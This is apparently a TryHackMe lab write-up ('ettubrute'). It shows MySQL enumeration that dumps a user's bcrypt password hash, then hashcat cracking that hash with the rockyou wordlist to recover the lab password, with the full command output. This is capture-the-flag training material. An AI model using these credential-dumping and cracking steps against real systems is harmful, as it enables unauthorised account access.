 <code>
https://tryhackme.com/room/ettubrute

## mysql Enumeration


MySQL [mysql]> use website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [website]> select * from user;
ERROR 1146 (42S02): Table 'website.user' doesn't exist
MySQL [website]> select * from userss;
ERROR 1146 (42S02): Table 'website.userss' doesn't exist
MySQL [website]> select * from userss
    -> select * from userss;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'select * from userss' at line 2
MySQL [website]> select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | Adrian   | $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we | 2021-10-20 02:43:42 |
+----+----------+--------------------------------------------------------------+---------------------+
1 row in set (0.033 sec)

MySQL [website]> 


──(kali㉿kali)-[~/Documents/THM/THM_Brute]
└─$ cat hash.txt 
$A$005$n:{T^3%/{5=+Z0Y1zOxlUB7mIrlVbAxA5t4ARcqMaY6i4k1AhaU2/W1

## Adrian Hash creaking                                                                                                                                        

┌──(kali㉿kali)-[~/Documents/THM/THM_Brute]
└─$ hashcat hash.txt -m 3200 ../../../Documents/www/wordlists/rockyou.txt
hashcat (v6.2.6) starting
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72
Dictionary cache built:
* Filename..: ../../../Documents/www/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

**$2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSYxz0SKn4we:tigger**
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$tLzQuuQ.h6zBuX8dV83zmu9pFlGt3EF9gQO4aJ8KdnSY...SKn4we
Time.Started.....: Tue May 20 12:35:32 2025 (1 sec)
Time.Estimated...: Tue May 20 12:35:33 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (../../../Documents/www/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       40 H/s (3.68ms) @ Accel:4 Loops:16 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 32/14344385 (0.00%)
Rejected.........: 0/32 (0.00%)
Restore.Point....: 16/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 654321 -> butterfly

Started: Tue May 20 12:34:47 2025
Stopped: Tue May 20 12:35:34 2025

## credentials Adrian:tigger - only for web service not for ftp

